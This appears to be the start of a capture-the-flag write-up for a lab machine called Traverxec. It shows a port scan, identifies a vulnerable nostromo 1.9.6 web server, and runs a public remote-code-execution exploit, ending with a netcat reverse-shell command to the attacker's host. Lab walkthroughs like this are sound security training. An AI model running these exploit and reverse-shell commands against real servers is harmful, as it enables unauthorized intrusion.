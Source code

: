 # Scan

```bash
ghost@localhost [11:03:29] [~/Documents/hacking/tj-null-boxes/traverxec] [master *]
-> % rustscan -a $IP -- -sC -sV

Open 10.10.10.165:22
Open 10.10.10.165:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDVWo6eEhBKO19Owd6sVIAFVCJjQqSL4g16oI/DoFwUo+ubJyyIeTRagQNE91YdCrENXF2qBs2yFj2fqfRZy9iqGB09VOZt6i8oalpbmFwkBDtCdHoIAZbaZFKAl+m1UBell2v0xUhAy37Wl9BjoUU3EQBVF5QJNQqvb/mSqHsi5TAJcMtCpWKA4So3pwZcTatSu5x/RYdKzzo9fWSS6hjO4/hdJ4BM6eyKQxa29vl/ea1PvcHPY5EDTRX5RtraV9HAT7w2zIZH5W6i3BQvMGEckrrvVTZ6Ge3Gjx00ORLBdoVyqQeXQzIJ/vuDuJOH2G6E/AHDsw3n5yFNMKeCvNNL
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLpsS/IDFr0gxOgk9GkAT0G4vhnRdtvoL8iem2q8yoRCatUIib1nkp5ViHvLEgL6e3AnzUJGFLI3TFz+CInilq4=
|   256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGJ16OMR0bxc/4SAEl1yiyEUxC3i/dFH7ftnCU7+P+3s
80/tcp open  http    syn-ack nostromo 1.9.6
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
|_http-title: TRAVERXEC
|_http-server-header: nostromo 1.9.6
| http-methods:
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# 80

Looks like generic Bootstrap website. When I look at the web server (at HTTP header), it is using a unique one called `nostromo 1.9.6`.

With simple googling I found out it is vulnerable to RCE (https://www.exploit-db.com/exploits/47837).

```bash
ghost@localhost [11:19:15] [~/Documents/hacking/tj-null-boxes/traverxec] [master *]
-> % python2 47837.py $IP 80 id
HTTP/1.1 200 OK
Date: Sun, 13 Nov 2022 03:19:20 GMT
Server: nostromo 1.9.6
Connection: close

uid=33(www-data) gid=33(www-data) groups=33(www-data)


ghost@localhost [11:19:49] [~/Documents/hacking/tj-null-boxes/traverxec] [master *]
-> % python2 47837.py $IP 80 "nc -nv 10.10.14.8 4444 -e /bin/bash"
```
